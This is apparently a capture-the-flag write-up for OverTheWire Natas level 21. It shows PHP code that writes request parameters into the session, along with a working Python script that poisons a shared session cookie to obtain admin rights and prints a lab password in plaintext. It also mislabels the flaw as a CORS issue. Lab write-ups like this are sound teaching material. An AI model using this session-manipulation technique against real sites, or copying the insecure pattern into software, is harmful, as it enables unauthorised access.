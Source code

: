 Function `print_credentials()` in main page, checks if `$_SESSION` has `admin` parameter and if its value is equal to `1`

```php
if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
	print "You are an admin. The credentials for the next level are:<br>";
	print "<pre>Username: natas22\n";
	print "Password: <censored></pre>";
} else {
	print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas22.";
}
```

In "experimenter" page, if `$_REQUEST` contains `submit` key, all the contained attributes are saved in `$_SESSION`

```php
if(array_key_exists("submit", $_REQUEST)) {
	foreach($_REQUEST as $key => $val) {
		$_SESSION[$key] = $val;
	}
}
```

Well, the attack is defined. By passing `admin=1` in experimenter page, we will be able to get password for Natas22 . There is **Shared Resources Shared Risks**: Vulnerability in Colocated Website

we have give `admin=1` and `submit=1` in colocated site and get `cookies['PHPSESSID']`
and now manipulate the cookies , In second request in main site due to CORS Vulnerability , we give get the next level password

Let write the full python script

```py
import requests
import re

username = "natas21"
password = "89OWrTkGmiLZLv12JY4tLj2c4FW0xn56"
url = "http://%s.natas.labs.overthewire.org"%username
exp = "http://natas21-experimenter.natas.labs.overthewire.org"

session = requests.Session()


response1 = session.post(exp,data={ "admin" : "1","submit" :"1" } ,auth=(username,password))
old_sess_id = response1.cookies['PHPSESSID']

response2 = session.get(url, cookies={"PHPSESSID" : old_sess_id } ,auth=(username,password))
content = response2.text

flag = re.findall("Username: natas22\nPassword: (.*)</pre>",content)[0]
print("[+] Gotcha ",flag)
```

---